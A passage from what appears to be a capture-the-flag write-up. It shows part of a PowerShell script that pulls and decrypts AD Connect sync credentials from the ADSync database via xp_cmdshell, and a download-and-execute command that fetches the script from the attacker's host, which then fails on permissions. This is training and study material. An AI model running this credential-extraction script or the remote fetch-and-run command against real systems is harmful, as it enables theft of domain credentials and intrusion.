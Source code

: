     $decrypted = [string]::Empty

    while ($reader.Read() -eq $true -and $reader.IsDBNull(0) -eq $false) {
        $decrypted += $reader.GetString(0)
    }

    if ($decrypted -eq [string]::Empty) {
        Write-Host "[!] Error using xp_cmdshell to launch our decryption powershell"
        return
    }

    $domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerText}}
    $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerText}}
    $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

    Write-Host "[*] Credentials incoming...`n"

    Write-Host "Domain: $($domain.Domain)"
    Write-Host "Username: $($username.Username)"
    Write-Host "Password: $($password.Password)"



Now I'll run it just like I ran the first one. It fails at the
`xp_cmdshell`:



    *Evil-WinRM* PS C:\> iex(new-object net.webclient).downloadstring('http://10.10.14.11/Get-MSOLCredentialsv2.ps1')
    AD Connect Sync Credential Extract v2 (@_xpn_)
            [ Updated to support new cryptokey storage method ]

    [*] Querying ADSync localdb (mms_server_configuration)
    [*] Querying ADSync localdb (mms_management_agent)
    [*] Using xp_cmdshell to run some Powershell as the service user
    Exception calling "ExecuteReader" with "0" argument(s): "User does not have permission to perform this action.
    You do not have permission to run the RECONFIGURE statement.
    The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
    You do not have permission to run the RECONFIGURE statement.
    The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'."
    At line:46 char:1
    + $reader = $cmd.ExecuteReader()
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
        + FullyQualifiedErrorId : SqlException
    Exception calling "Read" with "0" argument(s): "Invalid attempt to call Read when reader is closed."
    At line:50 char:8
    + while ($reader.Read() -eq $true -and $reader.IsDBNull(0) -eq $false)  ...
    +        ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
        + FullyQualifiedErrorId : InvalidOperationException
    [!] Error using xp_cmdshell to launch our decryption powershell
